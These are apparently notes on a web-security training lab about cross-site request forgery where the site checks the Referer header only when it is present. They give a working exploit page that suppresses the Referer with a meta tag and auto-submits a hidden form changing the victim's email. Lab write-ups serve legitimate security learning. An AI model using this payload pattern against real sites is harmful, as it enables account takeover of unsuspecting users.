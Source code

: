 ## Lab: CSRF where Referer validation depends on header being present

Defense:
- Check Referer, but only when its available

Bypass:
- `<meta name="referrer" content="never">` 

```
<meta name="referrer" content="never">
<form method="POST" action="https://0a48006e03e5d08a815cfc9b00d100d6.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="hell@web-security-academy.net">
</form>
<script>
    document.forms[0].submit();
</script>
```